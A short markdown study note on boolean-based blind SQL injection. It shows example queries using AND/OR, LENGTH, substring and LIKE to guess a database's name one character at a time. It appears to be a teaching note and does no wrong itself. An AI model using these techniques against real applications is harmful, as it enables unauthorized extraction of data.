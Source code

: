 ```yaml
---
title: BOOLEAN based (Blind) Injection
---
```


If the 1st part of the where clause is correct we can use the AND operator to get result

````sql
SELECT * 
FROM users 
WHERE id=1 AND database()="sbva";
````

If the 1st part of the where clause is wrong we can use the OR operator to get result

````sql
SELECT * 
FROM users 
WHERE id=2 OR database()="sbva";
````

#### Finding Database Name

1. <u>Find Length of Name</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR LENGTH(database())="1";
````

2. <u>Brute Force the Characters</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR substring(database(), 1, 1)="s";

SELECT * 
FROM users 
WHERE id=2 or substring(database(), 2, 1)="s";
````

3. <u>Try to Find Matching Pattern</u>

````sql
SELECT * 
FROM users 
WHERE id=2 OR database() LIKE "%s%";
````